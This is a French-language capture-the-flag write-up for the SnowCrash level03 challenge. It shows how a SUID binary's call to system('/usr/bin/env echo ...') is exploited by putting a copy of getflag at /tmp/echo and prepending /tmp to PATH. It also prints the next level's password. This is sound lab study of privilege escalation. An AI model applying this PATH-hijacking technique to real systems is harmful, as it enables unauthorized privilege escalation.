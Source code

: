 LEVEL 03

------------------------------------------------------------------------------------------------------------------------


    find . -perm /u=s,g=s
    -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03*
    ll              --> l'exécutable level03 est SUID

    * Analyse n°1

    ll /usr/bin | grep trace
        -rwxr-xr-x 1 root   root     135040 Dec  5  2011 ltrace
        -rwxr-xr-x 1 root   root       6522 Mar 26  2015 mtrace
        -rwxr-xr-x 1 root   root     231180 May 26  2011 strace

    ltrace ./level03 --> Intéressant
    mtrace ./level03 --> RAS
    strace ./level03 --> Intéressant

        getegid32()                          -> Obtenir l'identifiant du groupe    
        geteuid32()                          -> Obtenir l'identifiant de l'utilisateur  
        setresgid32(2003, 2003, 2003)        -> Fixer les UID ou les GID
        setresuid32(2003, 2003, 2003)

        getegid()                                                                = 2003
        geteuid()                                                                = 2003
        setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                      = 0
        setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                      = 0

        int setresuid(uid_t ruid, uid_t euid, uid_t suid);
        int setresgid(gid_t rgid, gid_t egid, gid_t sgid);  
    
    https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/
    BOF : https://github.com/Bretley/how2exploit_binary/blob/master/exercise-2/README.md#:~:text=The%20PLT%20is%20a%20wrapper,you'll%20call%20system()%20.
    NASM : https://www.unilim.fr/pages_perso/tristan.vaccon/cours_nasm.pdf
    GDB : http://sdz.tdct.org/sdz/deboguer-son-programme-avec-gdb.html
    

    cat /etc/passwd                             --> 2003 match effectivement level03

    * Analyse n°2

    objdump -d ./level03

        NB : mov dest, src
        https://www.unilim.fr/pages_perso/tristan.vaccon/cours_nasm.pdf

    * Analyse n°3

    gdb level03     --> 

    system@plt ? Ci-dessous :

        The PLT is a wrapper function for the actual code in libc.
        The PLT is a part of the binary, it's address doesn't change. If you call system@plt , you'll call system().
        Techniquement on pourrait aller cherche le BOF, mais il y a plus simple

* Solution

    
    * Retour à l'analyse 1 (LTRACE)

    http://www-igm.univ-mlv.fr/~dr/NCS/node83.html

    level03@SnowCrash:~$ ltrace ./level03
       
        system("/usr/bin/env echo Exploit me"Exploit me
    
    Le programme level 03 est own par flag03, donc il peut call getflag
    Dedans, on a un call 'echo' depuis /usr/bin/env
    
    echo $PATH : /usr/local/sbin:/usr/local/bin:/usr/sbin:      /usr/bin  <ici>    :/sbin:/bin:/usr/games
    On overwrite l'emplacement, avec getflag
    whereis getflag --> /bin/getflag
    cp /bin/getflag /tmp/echo (accès à /tmp)

    ./level03 --> PATH inchangé
    export PATH=/tmp:$PATH
    ./level03 --> Execute getflag :D, en tant que flag03 ofc


    su level04 qi0maab88jeaj46qoumi7maus



------------------------------------------------------------------------------------------------------------------------

    NB : les exécutables sont recherchés de gauche à droite (cf. minishell)
    Donc export PATH=$PATH:/tmp ne fonctionne pas
